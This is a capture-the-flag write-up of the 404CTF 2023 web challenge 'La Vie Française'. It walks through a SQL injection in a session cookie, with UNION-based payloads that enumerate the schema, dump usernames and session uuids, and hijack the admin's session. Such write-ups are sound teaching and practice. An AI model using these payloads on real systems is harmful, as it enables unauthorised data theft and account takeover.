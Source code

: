 ```yaml
---
layout: writeup
category: 404CTF2023
chall_description: https://ctf.404ctf.fr/challenges#La%20Vie%20Fran%C3%A7aise-113
points: 956
solves: 81
tags: Web
date: 2023-06-06
comments: false
---
```


## ## Challenge Description

![Photo](../../../assets/CTFs/404CTF2023/annonce_laviefrancais.png "Annonce")

We have access to a website La Vie Francais (which was hinted that there exists a SQL server, since the admin banned sqlmap)

![Photo](../../../assets/CTFs/404CTF2023/laviefrancais1.png "Home page")

From the description and context of the challenge, it seems like we need to login as Madame Forestier to get the flag.



## ## Solution

In the beginning, I thought that we have to bypass the login form but it has a filter that reject all but the alphanumeric character with this error message: " Seuls les caractères alphanumériques sont autorisés "

However it was a rabbit hole!

![Photo](../../../assets/CTFs/404CTF2023/laviefrancais2.png "Login")

The real trick here is after we login: /account endpoint with the cookie uuid

![Photo](../../../assets/CTFs/404CTF2023/laviefrancais3.png "Account")

When we change the uuid to **` ' OR 1=1#'** the page no longer shows our name but jacquesrival instead.

![Photo](../../../assets/CTFs/404CTF2023/laviefrancais_jaques.png "SQL Test")

This confirmed that this section is vulnerable to SQLi. Now let's exploit it.

First thing first we need to find out the number of columns of the return table before using the UNION attack with the payload **`' UNION SELECT 1,2,3#'**

![Photo](../../../assets/CTFs/404CTF2023/laviefrancaisexploit1.png "SQL Test")

As we can see above, the field 1 is for the username, field 2 is some kind of message for the type user or admin maybe? and the 3 is perhap the uuid.

With this payload **`' UNION SELECT 1,database(),2'`** I found the database name **` usersdb`**

Then with **`' UNION SELECT table_name,2,3 from information_schema.tables where table_schema='usersdb'#`** I found the table **`users**

![Photo](../../../assets/CTFs/404CTF2023/laviefrancaisexploitusers.png "SQL Test")

For the columns name we use **`' UNION SELECT group_concat(column_name),2,3 from information_schema.columns where table_name='users'#**

![Photo](../../../assets/CTFs/404CTF2023/laviefrancaisexploitcolumns.png "SQL columns names")

Now all we need to do to leak the uuid of the owner and impersonate Madame Forestier!

**`' UNION SELECT group_concat(username,':',uuid SEPARATOR '#####'),2,3 from users#** leads us to the uuid of Madame Forestier madeleineforestier:8650580d3fe9431f8281b2212e9ff0de.

Change our uuid in cookie with Chrome Dev Tools (or modify it with Burp) and we can see the admin page.

![Photo](../../../assets/CTFs/404CTF2023/laviefrancaisfinal.png "GG")
